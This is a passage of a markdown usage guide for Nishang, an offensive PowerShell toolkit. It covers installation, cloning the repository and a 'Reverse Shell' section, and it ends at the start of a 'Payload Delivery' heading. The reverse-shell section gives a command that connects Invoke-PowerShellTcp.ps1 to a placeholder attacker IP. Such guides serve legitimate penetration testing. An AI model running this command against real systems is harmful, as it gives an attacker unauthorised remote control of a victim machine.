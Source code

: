    - You can directly use the scripts by importing them or running them individually in PowerShell:

```powershell
Import-Module .\PowerShellScript.ps1
```

### On Unix-based systems (Linux/macOS):

1. **Install PowerShell Core:**

   - Install PowerShell Core, as Nishang scripts require PowerShell to run.

   - **On Debian-based systems:**

```sh
sudo apt-get install -y powershell
```

   - **On macOS using Homebrew:**

```sh
brew install --cask powershell
```

2. **Clone the Nishang Repository:**

```sh
git clone https://github.com/samratashok/nishang.git
cd nishang
```

3. **Run PowerShell Core and Import Scripts:**

```sh
pwsh
Import-Module ./PowerShellScript.ps1
```

## Basic Usage
Nishang provides a variety of PowerShell scripts and payloads that can be used for different tasks. Here are some common commands and usage examples:

### Reverse Shell
To execute a reverse shell using PowerShell:

1. **Run the Reverse Shell Script:**

   - Modify the script with your attacking IP address and port, then execute:

```powershell
.\Shells\Invoke-PowerShellTcp.ps1 -Reverse -IPAddress <attacker-ip> -Port 4444
```

- **`Invoke-PowerShellTcp.ps1`**: Initiates a reverse TCP shell to the attacker's IP and port.

### Payload Delivery
To deliver and execute a payload remotely:

1. **Host the Payload on a Web Server:**

